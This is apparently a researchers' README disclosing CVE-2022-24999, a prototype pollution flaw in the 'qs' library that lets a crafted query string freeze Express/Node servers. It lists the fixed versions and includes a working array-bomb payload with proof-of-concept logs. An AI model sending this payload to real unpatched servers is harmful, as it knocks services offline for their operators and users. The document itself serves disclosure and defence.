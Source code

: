 # CVE-2022-24999

This repository contain exploits samples of the vulnerability we found in the JS library "qs" in december 2021. 

* This vulnerability was fixed in express v4.17.3 & [qs v6.10.3 v6.9.7, v6.8.3, v6.7.3, v6.6.1, v6.5.3, v6.4.1, v6.3.3, and v6.2.4](https://github.com/ljharb/qs/pull/428).

## qs Array & String Bombs

Vulnerable versions of "qs" allow creating "__proto__" properties on the output JS objects.

By setting an Array in the “__ proto__” property, we’ve been able to create “array-like” objects.

As the resulting Objects inherit the “Array” prototype, they expose the native Array functions.

But as they still are Objects, “qs” allow setting the “length” property on them.

As an example, the following payload will create this kind of “evil” array :

    categories[_proto__]&categories[_proto__]&categories[length]=100000000

Thus, setting an unreasonable "length" value on them will freeze the node process as soon as it tries to convert them to string values or by calling most native Array functions.

This exposes any Node application using a vulnerable version of "qs", with the default Express configuration and without a strong validation system to applicative DOS attacks.

Here an example logs of the poc in ./express-qs-string-bomb :

```
Send payload :  someString[_proto__]&someString[_proto__]&someString[length]=100000000
[server] Received params  { someString: Array { length: '100000000' } }
[server] Run someString + 0
[server] someString + 0 : 6.364s
[server] Run someString == "123" 
[server] someString == "123" : 6.387s
[server] just write `Got ${someString}`
[server] just write `Got ${someString}` : 6.397s
```

## Others exploitable behaviors

Our analysis also allowed us to see that other modes of exploitation were possible.

We describe some of them in the ./qs-vulns directory.

# Credits

BRAUN Nathanael & BRISSAUD Johan<br/>
For EY Security, France
